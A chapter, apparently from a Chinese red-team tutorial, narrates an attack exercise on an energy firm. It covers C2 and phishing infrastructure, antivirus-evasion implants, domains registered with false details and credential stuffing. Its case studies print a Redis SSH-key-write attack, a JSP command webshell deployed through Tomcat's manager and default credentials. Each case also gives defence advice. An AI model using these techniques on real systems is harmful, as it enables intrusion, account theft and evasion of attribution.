🎣 第五类：社工/钓鱼工具（10+款）
├── 钓鱼网站模板：
│   - 各种OA系统钓鱼模板
│   - 各种邮箱系统钓鱼模板
│   - VPN登录钓鱼模板
│   - 统一门户钓鱼模板
│   - ...几十个模板
│
├── 钓鱼工具：
│   - Gophish                     →  开源钓鱼平台，好用
│   - King Phisher                →  另一个钓鱼平台
│   - Evilginx2                   →  中间人钓鱼，能拿会话令牌
│   - Modlishka                   →  反向代理钓鱼，也是中间人
│   - 还有很多...
│
└── 鱼叉式钓鱼辅助工具

🛠️ 第六类：辅助工具（20+款）
├── 编码转换工具
├── 字典生成工具（crunch、cupp...）
├── 密码破解工具（hashcat、john、hydra...）
├── 报告生成工具
├── 团队协作工具（飞书、钉钉、企业微信...）
├── 思维导图工具（XMind、MindMaster...）
├── 笔记工具（Obsidian、Notion...）
└── 等等等等...
```

> 📦 **武器库有多大？**
> 我们的武器库，压缩包大概 **20多G**。
> 解压开了之后，有 **几千个** 工具和脚本。
> 常用的大概一两百个，剩下的是各种特定场景用的。
> 而且一直在更新，新漏洞出来了，马上就把POC加进去。

#### 2.3.2 武器库更新

大宇做的第一件事，就是把武器库全部更新一遍。

**更新清单：**
```
📋 武器库更新清单（行动前一周）：

1. 所有工具更新到最新版本
   - MSF更新到最新版
   - Cobalt Strike更新到最新版
   - xray、nuclei、afrog全部更新
   - Burp Suite更新
   - impacket、CrackMapExec更新
   - ...所有工具都更一遍

2. POC/EXP库同步
   - 从GitHub上同步最新的POC仓库
   - 最近半年的CVE漏洞，POC都整理进去
   - 重点关注：
     * Windows提权漏洞
     * Linux提权漏洞
     * Exchange漏洞
     * OA系统漏洞（泛微、致远、通达...）
     * VPN漏洞（深信服、奇安信、 Palo Alto...）
     * 中间件漏洞（Weblogic、Tomcat、Nginx...）

3. 针对能源行业做专项整理
   - 能源行业常用的系统有哪些
   - 这些系统有什么已知漏洞
   - 相关的POC/EXP单独整理一个文件夹
   - 结果：整理出 30+ 个能源行业常见系统的漏洞

4. 免杀马准备
   - 先做几版不同语言的免杀马
   - 用各种杀软测试一遍
   - 能过主流杀软的，留着备用
   - 做了 5 版不同的，每种加载方式各来一版

5. 字典生成/整理
   - 针对目标公司，生成专属字典
   - 公司名 + 年份 + 常见后缀组合
   - 员工姓名拼音 + 生日/手机号
   - 常见弱密码
   - 整理后：用户名字典 5000+，密码字典 10万+
```

> ⏱️ **时间投入**：支援组两个人，搞了整整三天。
> 第一天更新工具，第二天整理POC，第三天搞免杀和字典。
> 武器库这种东西，平时也要维护，但是行动前必须全面更新一遍。
> 用旧版本的工具，可能会漏掉新漏洞。

### 2.4 基础设施搭建

除了武器库，支援组还要搭建"基础设施"。

什么是基础设施？就是我们红队作战用的"基地"。C2服务器、钓鱼服务器、代理池... 这些都是基础设施。

#### 2.4.1 C2服务器

C2（Command and Control，命令与控制）服务器，是我们用来控制被控主机的。

说简单点：你拿了一台机器的权限，要在上面种个木马，这个木马会连回你的C2服务器，然后你就可以通过C2服务器给被控机器发命令了。

**C2基础设施规划：**
```
🖥️ C2基础设施（详见第59章：CS高级与流量隐匿）：

【主力C2】
1. Cobalt Strike 团队服务器（主）
   - 位置：日本某VPS
   - 配置：4核8G，带宽100M
   - 用途：主力C2，大部分payload走这里
   - 防护：
     * 域名前置（Domain Fronting）
     * 流量加密（HTTPS）
     * 配置了重定向器
     * 设置了访问白名单（只有我们的IP能连管理端）

【备用C2】
2. Metasploit C2（备用1）
   - 位置：美国某VPS
   - 用途：备用，跑一些MSF的模块
   - 有些模块CS里没有，MSF里有

3. 备用C2-A（备用2）
   - 位置：新加坡某VPS
   - 用途：备用，防止主C2挂了

4. 备用C2-B（备用3）
   - 位置：韩国某VPS
   - 用途：备用，多准备几个总没错

【重定向器】
5. 重定向器 × 5台
   - 位置：5个不同国家
   - 用途：隐藏真实C2的IP
   - 原理：
     被控机器 → 重定向器 → 真实C2
     就算被发现了，蓝队只能找到重定向器
     找不到我们真正的C2在哪

【域名】
- 注册了 10 个域名
- 都是看起来很正常的域名
- 比如：xx-cloud-service.com
- 比如：xx-it-support.com
- 每个域名对应不同的用途
- 都做了备案（用的虚假信息，当然是假的）
```

> 💰 **成本多少？**
> 这些服务器加起来，一天的成本大概是 2000-3000 块。
> 护网一般搞 7-14 天，光服务器成本就几万块。
> 还没算域名、代理池、工具授权这些。
> 红队真的挺烧钱的。
> 当然，跟护网的奖金比起来，这些都是小钱。

#### 2.4.2 钓鱼基础设施

钓鱼用的基础设施，也要提前准备好。

```
🎣 钓鱼基础设施（详见第67-68章：钓鱼攻击）：

【钓鱼域名】
- 注册了 5 个专门用来钓鱼的域名
- 都跟目标公司的域名很像，容易混淆
- 比如：
  * xxenergy-update.com    →  假装是系统升级通知
  * xxenergy-hr.com        →  假装是人力部门
  * xxenergy-it.com        →  假装是IT部门
  * xxenergy-mail.com      →  假装是邮件系统
  * xxenergy-vpn.com       →  假装是VPN系统
- 域名都做了备案（假信息）
- 都申请了SSL证书（HTTPS看起来更正规）

【钓鱼服务器】
- 单独一台服务器，跟C2分开
- 上面部署了：
  * Gophish钓鱼平台
  * 几个钓鱼网站模板（OA、邮箱、VPN...）
  * 用来收集账号密码
- 这台服务器的作用就是钓鱼
- 就算被发现了，也不会牵连到C2

【邮件服务器】
- 自己搭的邮件服务器
- 配置了SPF、DKIM、DMARC
- 这样发出去的邮件不容易进垃圾邮箱
- 提高送达率
- 发件人可以伪装成目标公司内部的人

【短域名服务】
- 自己搭了个短域名服务
- 用来缩短钓鱼链接
- 长链接看起来可疑，短的好一点
- 而且方便统计点击量

【其他】
- 准备了几十个邮箱账号
- 用来发钓鱼邮件的
- 每个账号每天发多少封有限制
- 多准备几个，轮着发
```

#### 2.4.3 代理池

为了防止IP被封，我们还准备了大量的代理IP。

```
🌐 代理池：

【代理数量】
- 高匿HTTP代理：500+个
- SOCKS5代理：200+个
- 住宅IP代理：100+个（最贵，但最真实，不像机房IP）
- 分布在全国各地

【代理来源】
- 买的（代理服务商，按流量/时间收费）
- 自己爬的免费代理（质量差，但是免费）
- 混合着用，不同场景用不同的

【代理池管理工具】
- 自己写的代理池管理工具
- 功能：
  * 自动检测代理可用性
  * 自动剔除失效的代理
  * 自动切换IP
  * 支持API调用，工具可以直接对接

【什么场景用代理】
- 扫描的时候（防止IP被封）
- 尝试登录的时候（防止IP被封+溯源）
- 访问目标网站的时候（隐藏真实IP）
- 总之，所有跟目标交互的操作，尽量都走代理
```

### 2.5 战前预案

准备了一周，行动前一天，我们又开了一次会。

这次，情报组拿出了一份厚厚的《攻击路径预案》。

```
📋 攻击路径预案（简化版，完整的有30多页）：

【首选路径：Web打点 → 内网渗透】（成功概率预估：60%）
步骤：
  1. 从外部找Web漏洞，拿Webshell
     - 目标：老系统、测试系统、边缘系统
     - 重点关注：Redis未授权、Tomcat弱口令、OA漏洞
  2. 提权，获取服务器最高权限
     - Windows提权 / Linux提权
  3. 收集内网信息
     - 网络结构、域信息、其他主机信息
  4. 横向移动，扩大战果
     - 哈希传递、票据传递、各种远程执行
  5. 域渗透，拿下域控
  6. 获取核心系统权限/重要数据
预计时间：3-5天
风险点：Web漏洞可能找不到；进去之后内网防护严，打不进去

【备选路径1：钓鱼 → 获取账号 → VPN登录】（成功概率预估：70%）
步骤：
  1. 针对关键人物发钓鱼邮件
     - 运维人员、IT管理员、高管
     - 定制化钓鱼邮件（社工画像派上用场）
  2. 钓到账号密码
  3. 登录VPN/OA/邮件系统
  4. 从VPN进入内网
  5. 在内网里横向移动
  6. 最终拿下域控/核心系统
预计时间：2-3天
风险点：钓鱼邮件可能被识别；账号可能有双因素认证
优势：成功率高，很多时候是最快的路径

【备选路径2：供应链 → 第三方系统】（成功概率预估：30%）
步骤：
  1. 找目标单位用的第三方服务商
     - OA厂商、运维外包、安全厂商、云服务商...
  2. 打第三方，从第三方迂回进入目标
  3. 比如：打OA厂商，拿到OA的后台权限
  4. 再通过OA进入目标内网
预计时间：5-7天
风险点：周期长，不确定性大
优势：目标本身防护严的时候，打第三方往往是突破口

【备选路径3：近源攻击】（成功概率预估：15%）
步骤：
  1. 物理接近目标
     - 假装成快递、外卖、维修人员
     - 去目标公司楼下/园区
  2. 接触到内部网络/设备
     - 比如：接入公共WiFi
     - 比如：物理接触到服务器（很难）
     - 比如：丢个U盘（BadUSB）
  3. 通过近源接入内网
预计时间：看运气
风险点：风险大，容易被抓现行
优势：如果目标外网防护特别严，这可能是唯一的办法

【备选路径4：撞库 → 直接拿账号】（成功概率预估：50%）
步骤：
  1. 用社工库里的账号密码
  2. 去撞目标的各种系统
  3. 碰到不改密码的人，就拿到账号了
  4. 用账号登录VPN/OA，进入内网
预计时间：1-2天
风险点：账号可能失效；可能触发告警
优势：快，成本低

...一共列了 12 条可能的路径，各有优劣。
```

每条路径下面，又列了详细的步骤、需要的工具、可能遇到的问题、应急预案...

老K指着预案说：

> "我们的首选还是Web打点，最直接，也最符合护网的常规打法。
> 但是钓鱼是备选，而且成功率往往更高。
> 很多队伍最后都是靠钓鱼拿的大奖。
> 其他路径作为兜底。
>
> 记住，护网不是比谁技术牛，是比谁能最快拿到成果。
> **不管黑猫白猫，抓到老鼠就是好猫。**
> 不要有技术洁癖，什么管用用什么。"

那天晚上，我们每个人都把自己负责的部分又检查了一遍。

武器库检查了，C2测试了，钓鱼邮件模板改了八版，字典生成好了，代理池跑起来了...

万事俱备，只等第二天早上8点，行动正式开始。

---

## ⚔️ 行动第一天：情报战+外围打点

**图1-7 第一天作战流程与战报**



### 3.1 早上8点，行动开始

行动第一天，早上7点半，所有人都到了。

会议室里摆满了显示器，每个人面前至少两台电脑。

墙上的投影，一边放着实时进度看板，一边放着我们的攻击路径图。

飞哥看了看表：

> "还有10分钟，最后检查一遍。
> 情报组，信息收集脚本都跑起来了吗？
> Web组，扫描器准备好了吗？
> 内网组，等消息就行，先研究研究预案。
> 支援组，C2都在线吧？钓鱼平台正常吗？
>
> 好，大家注意，8点整准时开始。
> 记住，**稳扎稳打，不要急，不要犯低级错误。**
> 第一天主要是情报收集和外围试探，不要上来就搞大动作。
> 先搞清楚蓝队的监控力度，再决定下一步怎么打。"

7:59，所有人都盯着屏幕，鸦雀无声。

8:00整，飞哥一声令下：

> **"行动开始！"**

瞬间，键盘敲击声此起彼伏。

### 3.2 情报组：全面铺开

情报组是最先出成果的。

老K他们的脚本，7:50就开始跑了，8点整的时候，第一批结果已经出来了。

```
📊 8:15 情报组战报（第一批）：

【域名/资产】
- 已发现子域名：236个 → 经过一夜补充，现在 287 个
- 存活Web服务：67个 → 78 个
- 新增发现的重要站点：
  * old-system.xxenergy.com  →  一个老系统，ASP+Access架构
  * bbs.xxenergy.com         →  内部论坛（Discuz，外网也能访问）
  * wiki.xxenergy.com        →  内部Wiki（需要登录，Confluence）
  * crm.xxenergy.com         →  CRM系统
  * test01.xxenergy.com      →  又一个测试环境
  * backup.xxenergy.com      →  备份系统（这个很有价值）

【端口/服务】
- 新发现开放端口：
  * 8443  →  某个管理后台（Jboss？）
  * 8080  →  Tomcat（确认了，确实是tomcat/tomcat）
  * 9090  →  某个运维管理平台
  * 6379  →  Redis（3台，其中2台未授权，已确认）
  * 27017 →  MongoDB（1台未授权，已确认）
  * 9200  →  Elasticsearch（1台未授权，已确认）
  * 还有一堆杂七杂八的端口...

【漏洞初筛】
- 用nuclei扫了一遍存活Web
- 初筛高危漏洞 12 个
- 中危 47 个
- 待Web组验证，可能有误报
```

老K在群里发了这些信息，然后补了一句：

> "Web组的兄弟们，重点看一下old-system那个站，老ASP系统，漏洞肯定多。
> 还有那几个未授权的Redis、MongoDB、ES，你们可以直接打，我都验证过了。
> BBS那个站，是Discuz X3.2的，版本很老，可能有SQL注入或者getshell的洞。
> Tomcat那个弱口令也确认了，tomcat/tomcat，直接上。
>
> 我这边继续挖，有新发现再同步。"

### 3.3 Web组：多点开花

Web组的四个人，每个人分工不同。

阿豪负责重点系统的深度测试（OA、邮件、核心业务系统...），另外三个人负责大面积撒网，把所有已知的Web站点都过一遍。

#### 3.3.1 第一个突破：Redis未授权

8:30，Web组的小杨先出结果了。

> "兄弟们，那个Redis未授权，我打进去了。
> 1.2.3.4 这台，root权限。
> 是台测试服务器，阿里云的，不在目标内网里。
> 但是是台云服务器，可以当跳板用。
> 上面有一些配置文件，我看看有没有有用的信息。"

10分钟后，小杨又说：

> "有收获！这台服务器上存着测试环境的数据库密码。
> 测试环境的数据库密码是：Test@xxny2024
> 我看了一下规律，跟我们之前猜的差不多（公司名+年份+前缀）。
> 生产环境的数据库密码，大概率是：Xxny@2024 或者类似的格式。
>
> 另外，我在这台服务器的bash_history里，找到了几个内网IP段。
> 虽然这台不在内网，但是有人从这台登过内网的机器。
> 10.10.x.x 段，具体的我整理一下发给内网组。
>
> 还有，我在 /root/ 目录下发现了一个 tools 文件夹，
> 里面有很多工具，还有一些密码本。
> 应该是之前运维人员留下来的。"

第一个突破，虽然不是什么大战果，但开了个好头。

> 💡 **Redis未授权具体怎么打？**（详见第11章：环境搭建，DVWA靶场实操）
> 很简单，后面第11章我会手把手教你。
> 你也可以去靶场里自己试试。

#### 3.3.2 第二个突破：老系统SQL注入

9:15，阿豪那边也传来好消息。

> "old-system那个站，有SQL注入，而且是MSSQL的，权限不小。
> 是个ASP+MSSQL的老系统，开发者完全没做过滤。
> 我已经拿到了数据库的所有表。
> 里面有用户表，有1万2千多条用户数据。
> 密码是MD5的，我正在跑，估计能解出来不少。"

又过了20分钟：

> "密码解出来了，1万2千多条里，解出来了3400多条。
> 我把解出来的账号密码整理一下，发给情报组。
> 这些账号可以去撞其他系统（OA、邮件、VPN...）。
>
> 另外，这个注入点可以尝试提权，我正在试xp_cmdshell。
> 如果能开的话，就能直接拿服务器权限了。
> 不过MSSQL的权限好像不是sysadmin，可能提不动。
> 我再想想别的办法。"

> 💡 **SQL注入具体怎么操作？**（详见第14-16章：SQL注入基础/进阶/高级）
> 这是我们第二个模块的内容，会讲得非常详细。
> 从最基础的原理，到各种绕过技巧，再到实战案例。
> 还有专门的靶场（SQLi-Labs）让你练手。

#### 3.3.3 第三个突破：Tomcat后台弱口令

几乎同一时间，Web组的另一个兄弟（阿哲）也有收获。

> "那个8080的Tomcat，后台弱口令确认了。
> tomcat/tomcat，老套路了。
> 我上传了个war包，拿到Shell了。
> 这台是台Windows Server 2012，权限是system（Tomcat以服务运行，权限很高）。
>
> 但是同样，是在外网的，是台发布服务器。
> 不过我看了一下，这台服务器好像和内网有专线连接。
> 网络里能看到 10.10.x.x 的路由。
> 这台可能可以当进入内网的跳板！
>
> 我先种个马，再看看这台机器上有什么有用的东西。"

上午10点不到，我们已经拿到了3台外网服务器的权限。

虽然都不在内网核心，但每一台都是一个潜在的跳板。

飞哥在群里说：

> "不错不错，开局顺利。
> 但是别高兴太早，外网的服务器不算什么。
> 我们的目标是内网，是核心系统，是域控。
> 继续打，找能进内网的口子。
>
> 情报组，把新拿到的账号密码整理一下，开始撞库。
> 内网组准备一下，可能很快就能进场了。"

### 3.4 情报组的大杀器：账号密码碰撞（撞库）

情报组拿到Web组提供的账号密码后，马上开始了"撞库"。

什么是撞库？就是用拿到的账号密码，去尝试登录其他系统。

因为很多人，所有系统用的都是同一个密码。

老K他们写了个自动化脚本，拿着3400多个账号，去扫各种系统的登录口：

```
📊 10:45 撞库结果汇总：

【OA系统（泛微e-cology）】
- 尝试了 1000 个最可能的账号
- 成功登录 86 个
- 其中有管理员权限的 3 个
- 重点收获：王主任的账号也在里面！
  （他的密码居然是 Wxh@2024，跟我们猜的差不多）
  （这可是IT运维部主任的号啊...）

【邮件系统（Coremail）】
- 尝试了 1000 个账号
- 成功登录 124 个
- 高管邮箱 5 个
- 有几个部门经理的邮箱也进去了

【VPN系统（深信服）】
- 尝试了 500 个账号
- 成功登录 42 个
- 这个最值钱！有了VPN账号，就能直接进内网了
- 其中有 10 个账号的权限还不低（从用户名判断是IT部门的）

【其他系统】
- CRM系统：成功 35 个
- Wiki系统：成功 28 个
- 内部论坛：成功 200+ 个（这个最多，因为论坛密码最不被重视）
- 统一门户：成功 15 个
- HR系统：成功 12 个
- 还有一些杂七杂八的小系统...
```

老K在群里发了这个结果，然后说：

> "兄弟们，大丰收！
> VPN账号搞到42个，我已经挑了10个权限高的（IT部门的），发给内网组了。
> 内网组可以准备进场了。
>
> 另外，王主任的OA账号和邮箱都有了。
> 要不要搞波大的？直接用他的身份做事？
> 他的号权限很高，OA里能看到很多东西。
> 说不定还能从OA里找到更多突破口。"

飞哥想了想，回复：

> "先不急，王主任的号是王牌，留到关键时候再用。
> 现在先用普通员工的VPN号进去试试水。
> 看看蓝队的监控有多严，会不会一登录就告警。
>
> 情报组继续挖，看看还有没有其他收获。
> Web组继续打外围，能多拿几台是几台，特别是和内网连通的。
> 内网组准备一下，用一个低权限的VPN号先进去看看情况。
> 注意隐蔽，不要搞大动作，先收集信息。"

### 3.5 内网组：进场！

上午11点，内网组的飞哥，亲自带着一个小兄弟（阿斌），用一个普通员工的VPN账号，登录进了目标的内网。

登录成功的那一刻，飞哥深吸了一口气。

> "兄弟们，进来了。
> 用的是市场部一个普通员工的号，权限不高。
> 内网环境比我想象的要... 规范。
> 先看看我们在哪个网段，周围有什么。"

飞哥噼里啪啦敲了一串命令，收集到了第一批内网信息：

```
📊 11:15 内网战报（第一批）：

【当前位置】
- IP：10.10.35.123
- 网段：10.10.35.0/24
- 看起来是办公网段（市场部）
- 同网段存活主机：56 台

【网络结构初判】
- 能访问（ping通）的网段：
  * 10.10.35.0/24（当前办公网）
  * 10.10.36.0/24（另一个办公网段）
  * 10.10.100.0/24（服务器区？能ping通，但是端口大部分被防火墙拦了）
- 不能访问（ping不通/超时）的：
  * 10.10.200.0/24（核心区？应该被防火墙严格隔离了）
  * 10.10.10.0/24（不知道什么区，访问不了）

【主机信息】
- 大部分是Windows办公机（Win10/Win11）
- 有几台打印服务器
- 有文件服务器
- 有软件分发服务器
- 域控：10.10.100.10、10.10.100.11（能ping通，但是访问不了）

【域信息】
- 域名：XXENERGY.LOCAL
- 林名：XXENERGY.LOCAL
- 域控：2台（主备）
- 我们登录的机器是域内机器（普通域用户权限）

【初步结论】
- 标准的AD域环境
- 有网络分区，办公网和服务器区之间有防火墙
- 核心区防护更严，完全隔离
- 我们现在只是在外围，路还长
- 先从办公网段入手，找突破口
```

飞哥把信息同步到群里，然后说：

> "内网环境比我想象的规范，有分区，有防火墙。
> 不过没关系，慢慢来，先收集信息。
> 我们现在有个域用户账号，虽然权限不高，但已经够用了。
> 普通域用户就能做很多事了。
>
> 先在办公网段逛一逛，收集点信息。
> 看看能不能找到什么突破口，往服务器区打。
>
> 小林（情报组的），你把员工列表发我一下，
> 我看看这个网段里都有哪些人的机器，
> 找几个高价值目标，针对性地打。"

### 3.6 午饭时间

中午12点，大家轮流去吃饭。

但是没有人真的放下心来吃，都是扒拉两口就回来继续看屏幕。

飞哥一边吃盒饭，一边听各组汇报上午的战果。

```
📊 上午战报汇总：

【情报组】
- 子域名：236个 → 287个（还在持续增加）
- 存活Web：67个 → 78个
- 收集到有效账号密码：3400+个（还在增加）
- VPN账号：42个（还在继续撞）
- OA账号：86个（含3个管理员）
- 邮箱账号：124个（含5个高管）
- 社工画像：完成了 10 个关键人物的详细画像

【Web组】
- 拿到外网服务器权限：5台
  * Redis未授权 ×2（都是root）
  * SQL注入 ×1（MSSQL，db_owner权限，还在提权）
  * Tomcat弱口令 ×1（system权限，这台和内网通！）
  * MongoDB未授权 ×1（能看数据，没拿到shell）
- 发现高危漏洞：18个（待验证，可能有3-5个能拿shell）
- 中危漏洞：100+个
- 还在继续扫，继续测

【内网组】
- 成功通过VPN进入内网 ✓
- 确认是AD域环境
- 初步掌握内网网络结构（3个分区）
- 正在进一步收集内网信息
- 暂时没搞大动作，比较低调

【总体进度】
- 比预期快了半天
- 开局非常顺利
- 但还没碰到硬骨头（还没遇到蓝队的强力反击）
- 下午估计会更精彩
```

飞哥点了点头：

> "上午不错，比预期的好。
> 下午重点：
> 1. Web组继续打外围，尽量多拿几台外网服务器
>    重点找和内网连通的机器，当跳板用
> 2. 内网组在内网好好收集信息，找突破口
>    先别急着横向，先摸清楚情况
>    注意隐蔽，不要触发告警
> 3. 情报组开始准备钓鱼
>    下午可以发一波试探性的钓鱼邮件
>    先小范围发，看看蓝队的反应
> 4. 支援组把免杀马再优化一下
>    内网里肯定有EDR，普通马肯定不行
>
> 都吃饱了吗？吃饱了下午继续干！
> 今天争取能进服务器区！"

---

## 📚 案例讲解

### 案例1：Redis未授权访问拿下服务器

**背景**：
目标有一台Redis服务器，6379端口对外开放，且未设置密码。

**攻击过程：**
```bash
# 第一步：用redis-cli连接目标
$ redis-cli -h 1.2.3.4
1.2.3.4:6379> ping
PONG
# 有PONG回应，说明可以未授权访问

# 第二步：查看Redis信息
1.2.3.4:6379> info
# Server部分可以看到Redis版本、操作系统版本
# 可以看到Redis是以什么权限运行的
# 结果：Redis 5.0.8，Linux系统，root权限运行

# 第三步：看看有没有开启SSH，以及SSH目录在哪
# （先收集信息，不一定非要写公钥）
1.2.3.4:6379> config get dir
1) "dir"
2) "/root"
# 数据目录在/root，说明大概率是root权限

# 第四步：写入SSH公钥（如果目标开启了SSH公钥登录）
# 先生成一对密钥：ssh-keygen -t rsa
# 然后把公钥内容写进去
1.2.3.4:6379> config set dir /root/.ssh/
OK
1.2.3.4:6379> config set dbfilename authorized_keys
OK
1.2.3.4:6379> set x "\n\n\nssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQ...你的公钥...\n\n\n"
OK
1.2.3.4:6379> save
OK
# 保存之后，公钥就被写入/root/.ssh/authorized_keys了

# 第五步：用私钥登录
$ ssh -i id_rsa root@1.2.3.4
Last login: ...
# 登录成功！拿到root权限！
```

**原理**：
Redis默认没有密码，如果暴露在公网上，任何人都可以连接。
如果Redis是以root权限运行的，并且知道Web目录或者SSH目录，
就可以通过修改数据目录和文件名的方式，把恶意内容写入指定文件。
写入SSH公钥就能远程登录，写入Webshell就能控制网站。

**防御方法**：
1. 不要把Redis暴露在公网（绑定127.0.0.1）
2. 设置强密码（requirepass）
3. 不要用root权限运行Redis
4. 重命名危险命令（config、flushall等）
5. 配置防火墙，只允许可信IP访问6379端口

> 💡 **去哪里练手？**
> DVWA靶场里有Redis相关的练习（详见靶场篇）。
> 或者你自己搭个Redis环境试试，很简单。

---

### 案例2：SQL注入脱库 → MD5解密 → 撞库拿VPN

**背景**：
一个老系统存在SQL注入漏洞，通过注入拿到了用户表，然后用这些账号去撞VPN系统，成功拿下多个VPN账号。

**完整攻击链：**
```
SQL注入漏洞 → 脱库（用户表）→ MD5解密 → 账号密码整理 → 批量撞库 → 拿到VPN账号 → 进入内网
```

**为什么能成功？（每一环为什么能打穿）**
```
第1环：SQL注入漏洞
  原因：老系统，开发者安全意识差，完全没做过滤
  占比：约30%的老系统有这种问题

第2环：MD5解密
  原因：用户密码强度太低，都是常见密码
  统计：约30%的MD5哈希能在彩虹表里查到
       约50%的8位以下纯数字密码能秒破

第3环：撞库成功
  原因：用户在多个系统使用相同的账号密码
  统计：约60%的人会在不同系统用同一个密码
       特别是公司内部的系统，基本都是一套账号

第4环：VPN系统防护弱
  原因：VPN没有登录失败次数限制
       没有验证码
       没有双因素认证
  结果：可以暴力猜解/撞库，不怕锁号
```

**防御方法（对应每一环）**：
1. 所有系统都要做好安全防护，不能有短板（木桶原理）
2. 强制用户使用强密码（12位以上，大小写+数字+符号）
3. 密码加盐哈希（bcrypt、Argon2），不要用裸MD5
4. 不同系统使用不同密码，或者用统一身份认证（SSO）
5. 登录失败次数限制（输错5次锁15分钟）
6. 加验证码（滑块、点选、短信...）
7. 异常登录提醒（异地登录、新设备登录发通知）
8. 重要系统（VPN、OA、邮件）开启双因素认证（2FA）

---

### 案例3：Tomcat后台弱口令拿Shell

**背景**：
一台Tomcat服务器，manager后台使用了弱口令（tomcat/tomcat），通过上传WAR包拿到Shell。

**攻击过程：**
```
1. 发现Tomcat
   扫描发现8080端口，访问后看到Tomcat默认页面
   或者通过FOFA等搜索引擎直接搜

2. 尝试访问管理后台
   访问 /manager/html
   弹出HTTP Basic认证登录框

3. 尝试弱口令
   试了几个常见的：
   - admin/admin → 不对
   - tomcat/tomcat → 登进去了！

4. 找上传WAR包的地方
   登录后往下翻，有个"WAR file to deploy"
   就是上传WAR包的地方

5. 制作WAR包
   写一个jsp一句话木马，文件名是shell.jsp
   内容：
   <%
     if("123".equals(request.getParameter("pwd"))){
       java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream();
       int a = -1;
       byte[] b = new byte[2048];
       out.print("<pre>");
       while((a=in.read(b))!=-1){ out.print(new String(b)); }
       out.print("</pre>");
     }
   %>
   然后打包成war包：jar cvf shell.war shell.jsp

6. 上传部署
   选择shell.war，点上传
   上传成功后会自动部署
   应用列表里会多一个shell

7. 访问Shell
   访问 http://目标:8080/shell/shell.jsp?pwd=123&cmd=whoami
   看到返回结果，就是执行成功了

8. 提权
   Tomcat经常是以system/root权限运行的（作为服务）
   所以拿到Shell之后，往往就是高权限
   不用提权，直接system/root
```

**常见的Tomcat弱口令（Top10）：**
```
tomcat / tomcat
admin / admin
manager / manager
tomcat / admin
admin / tomcat
root / root
admin / 123456
tomcat / 123456
test / test
guest / guest
...还有几十种常见组合
```

**防御方法**：
1. 不要把Tomcat的manager/host-manager后台暴露在公网
2. 设置强密码（别再用tomcat/tomcat了）
3. 限制可以访问管理后台的IP（IP白名单）
4. 降低Tomcat运行权限（不要用system/root）
5. 删除不必要的应用（manager、docs、examples...）
6. 修改默认的端口号（虽然这是"安全通过隐晦"，但聊胜于无）

---

### 案例4：社工画像 —— 信息收集的艺术

**背景**：
情报组通过公开信息，给目标单位的关键人物做了详细的社工画像。

**信息来源渠道大全：**
```
🏢 公司/组织层面：
1. 公司官网 → 领导介绍、组织架构、联系方式、新闻动态
2. 招聘网站 → 部门信息、技术栈、员工数量
3. 招投标网站 → 用了什么系统、哪家厂商、预算多少
4. 工商信息 → 法人、股东、分支机构
5. 备案信息 → 域名、网站
6. 专利/软著 → 技术方向、研发人员
7. 法院裁判文书 → 各种意想不到的信息
8. 新闻报道 → 采访、会议、活动

👤 个人层面：
1. 职业社交：LinkedIn、脉脉、猎聘 → 工作经历、技能
2. 代码平台：GitHub、Gitee → 技术水平、邮箱、代码
3. 技术社区：掘金、CSDN、博客园、知乎 → 技术方向、联系方式
4. 社交媒体：微博、抖音、快手 → 个人生活、位置、兴趣
5. 外卖/快递：（这个不能细说，反正能查到）
6. 各种论坛：兴趣爱好、习惯、常用ID
7. 游戏平台：常用ID、游戏时长...

🔑 密码相关：
1. 社工库 → 历史泄露的账号密码
2. 密码规律分析 → 从已知密码推断其他系统密码
3. 字典生成 → 根据个人信息生成专属密码字典
```

**为什么社工画像很重要？**
- 钓鱼攻击需要"量身定制"，了解对方才能钓到
  （知道对方儿子要高考，就发"高考志愿填报指南"的钓鱼邮件）
- 知道对方的兴趣爱好，可以设计更有诱惑力的钓鱼邮件
- 知道对方的工作内容，可以找到更有价值的目标
- 知道对方的常用ID和密码习惯，可以更精准地撞库
- 有时候，一个人的信息，就能打开整个内网的大门

**防御方法（怎么保护自己的隐私）**：
1. 不要在网上随便泄露个人信息（发朋友圈注意打码）
2. 不同平台使用不同的ID和头像
3. 个人社交媒体注意隐私设置（不要所有人可见）
4. 不同网站用不同密码（用密码管理器）
5. 重要账号开启双因素认证
6. 公司做好员工信息保护（不要把员工信息全放官网上）
7. 定期做社工钓鱼演练（提高员工安全意识）

> 🎯 **练习作业**：试着给自己做一个社工画像
> 用你的名字、常用ID去搜一搜，看看你在网上留下了多少痕迹。
> 很多人搜完之后都会吓一跳。

---

### 案例5：红队基础设施的重要性

**背景**：
某次护网行动，有一支队伍因为C2服务器被蓝队溯源到了，直接被判负。

**真实故事**：
> 有个队伍，技术挺强的，打进去了不少机器，成绩也不错。
> 按那个进度，拿前三问题不大。
>
> 但是他们图省事，C2服务器直接用的国内某厂商的VPS。
> 而且还没用重定向器，被控机器直接连C2。
>
> 结果蓝队发现了异常的外联流量。
> 蓝队的分析人员一看，这个流量特征很像Cobalt Strike。
> 然后一溯源，找到了C2服务器的IP。
>
> 再一查这个IP的注册信息... 居然用的是真实信息！
> （注册VPS的时候用了自己的身份证和手机号）
>
> 蓝队直接把证据提交给了裁判组。
> 裁判组一核实，确实是那支队伍的。
> 那支队伍直接被淘汰了。
>
> 本来能拿前三的，结果因为基础设施没做好，白忙活了。
> 你说亏不亏？

**红队基础设施的五大原则**：
1. **隐匿原则**：不能让蓝队找到你的真实位置
   - 用重定向器隐藏C2
   - 服务器分布在不同国家
   - 注册信息用虚假的
   - 所有操作走代理

2. **冗余原则**：多准备几台，一台被封了还有备用
   - 主C2 + 备用C2 × N
   - 钓鱼服务器多准备几个
   - 代理池要大

3. **分离原则**：不同的用途用不同的服务器
   - C2服务器和钓鱼服务器分开
   - 扫描用的机器和C2分开
   - 不要把鸡蛋放在同一个篮子里

4. **干净原则**：服务器上不能有任何能溯源到你的信息
   - 不要放个人文件
   - 不要登录个人账号
   - 操作日志定期清理
   - 用完就销毁

5. **加密原则**：所有流量都要加密，不能被明文抓到
   - C2流量走HTTPS
   - 尽量伪装成正常流量
   - 域名前置、流量混淆...

**蓝队的防御/溯源思路**（反过来想就知道怎么防溯源了）：
1. 监控异常外联流量（奇怪的IP、奇怪的端口、奇怪的频率）
2. 威胁情报比对（已知的C2 IP/域名特征库）
3. 行为分析（C2的流量有明显特征：心跳、上传下载...）
4. 蜜罐/蜜网（故意放一些假目标，谁来碰谁就是红队）
5. 溯源反制（找到C2之后，反向渗透红队的基础设施）

---

